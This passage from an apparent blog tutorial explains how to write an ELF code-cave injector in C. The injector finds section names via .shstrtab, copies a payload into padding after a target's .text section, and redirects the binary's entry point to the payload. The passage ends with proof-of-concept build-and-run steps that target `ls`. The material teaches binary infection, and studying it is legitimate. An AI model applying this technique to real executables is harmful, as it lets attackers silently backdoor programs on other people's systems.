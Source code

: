 In order to get the section names we need to access the String Header Section Table (`.shstrtab`) in the ELF file. That table stores all the section names required for the executable. Now that we clarified that, we can move on and see what the next part of the code does. So, we get a pointer to the `.shstrtab` by adding the specific offset to the beginning of the file. Then, we iterate over all the sections in the ELF file and retrieve the name of the section by adding to the `sec_strtab_ptr` the index where the name resides.

 
### Processing The Payload

After we know where the `.text` section of the payload is, we can check to see if the payload fits into the padding found earlier. Then copy the payload code at the end of the `.text` section in the target file, using the offset returned by the `find_codecave` function.

```c
// If the payload is to big to fit in the codecave, exit.
	if(p_txt_sec_ptr->sh_size > cave_size)
	{
		perror("[!] Payload to big to inject.\n");
		close(target_fd);
		close(payload_fd);
		exit(1);
	}

	// Inject payload
	memmove(data + txt_end, data1 + p_txt_sec_ptr->sh_offset, p_txt_sec_ptr->sh_size);
```

## Finishing it up
Finally, with a little help of pointer dancing and the `patch_target` function, we can change the entry point of the file with the evil one and replace the placeholder with the original entry point. I will not include the code here since this is basically just scanning the whole code of the payload, searching for the pattern passed by the second argument and replacing it with the entry point passed by the 4th argument.

```c
// Patch the return address after executing the payload
patch_target(data + txt_end, 0x1111111111111111, p_txt_sec_ptr->sh_size, (long)e_point);

// Change entry point
elf_header->e_entry = (Elf64_Addr)(base + txt_end);
```

# Proof of concept

1. Just compile the elf injector like any other normal C program: `gcc elf_inejctor.c -o elf`
2. Generate the payload: `nasm -f elf64 -o payload.o payload.asm && ld -o payload payload.o`
3. RUN IT!: `./elf ls payload`

> **NOTE**: If you want to inspect the code more carefully you can check it [@ my github](https://github.com/vlagh3/elij) as always

 